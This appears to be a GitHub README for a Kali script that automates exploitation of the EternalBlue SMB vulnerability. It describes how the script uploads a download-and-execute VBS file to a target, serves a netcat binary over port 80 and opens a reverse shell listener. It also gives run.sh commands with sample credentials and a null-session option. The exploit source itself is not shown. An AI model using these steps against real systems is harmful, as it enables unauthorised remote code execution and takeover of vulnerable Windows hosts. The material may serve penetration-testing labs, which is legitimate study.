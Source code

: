 ### Title: A handy script for kali box 

>  Description: In short the specific script automates the exploitation procedure of the specific vulnerability (for both x84, x64 architecture):

1. Uploads downloadAndExecute.vbs to the target machine
2. Starts a web server (at port 80) in order to deliver a netcat binary
3. Starts a listener at a given port (see LHOST , LPORT)

In case of successfull exploitation you get a reverse shell at the listener's window

**Usage**:

1. Download the repo localy:

   #git clone https://github.com/Ch0pin/EternalBlue.git

2. cd to EternalBlue and run

```bash
root@kali#./run.sh <username> <password> <LHOST> <LPORT> <RHOST> <Named_pipe>

```

**Examples:**

1. In case of known username/password Run:

```bash
./run.sh 'Chopin' 'password' 10.10.10.1 4444 10.10.10.2 Browser
```

2. In case a null session is allowed Run:

```bash
./run.sh '' '' 10.10.10.1 4444 10.10.10.2 ''
```

